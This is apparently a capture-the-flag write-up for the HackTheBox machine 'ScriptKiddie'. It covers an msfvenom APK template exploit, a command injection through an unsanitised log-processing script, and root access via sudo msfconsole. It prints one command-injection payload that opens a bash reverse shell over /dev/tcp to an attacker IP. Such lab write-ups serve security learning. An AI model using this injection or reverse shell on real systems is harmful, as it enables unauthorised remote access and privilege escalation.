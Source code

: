 # ScriptKiddie

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

### Hacker Tools

Port 5000 presented a website where we could use tools like `nmap` and `msfvenom`:

<figure><img src="../../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can try it out and it works:

<figure><img src="../../../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

I tested all forms of command injection, but nothing worked. So, I started checking whether the tools themselves had exploits, and I was surprised to see that `msfvenom` was exploitable:

{% embed url="https://www.exploit-db.com/exploits/49491" %}

We just need to replace the payload in the PoC to a reverse shell and generate the APK file:

<figure><img src="../../../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

Afterwards, we can upload this as a template file on the machine and change the LHOST to our IP address:

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

Then we would get a shell:

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### To Pwn

There was another user named `pwn` on the machine, so that's probably the next path. Within the home directory of `pwn`, we can see two other files:

<figure><img src="../../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

The `bash` script was running some kind of logger that reads input from `/home/kid/logs/hackers` and executes commands based on it. Take note that we have control over this file.

<figure><img src="../../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

Now, we can see how the `${ip}` variable is not being sanitised and is run with `sh -c`, so this is our RCE point. Some testing revealed that the format of the log written is `[2021-05-28 12:37:32.655374] 10.10.16.9`. We can append a reverse shell to the end:

{% code overflow="wrap" %}
```
[2021-05-28 12:37:32.655374] 10.10.16.9 | bash -c 'bash -i >& /dev/tcp/10.10.16.9/8080 0>&1' #" > /home/kid/logs/hackers
```
{% endcode %}

After echoing it in, we would gain anoter reverse shell:

<figure><img src="../../../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

### Sudo MSFConsole

When checking `sudo` privileges, we see that we can run `msfconsole` as root.

<figure><img src="../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

The thing about `msfconsole` is that we can run shell commands in it. In short, we have root privileges just by doing `sudo msfconsole`:

<figure><img src="../../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

Rooted!
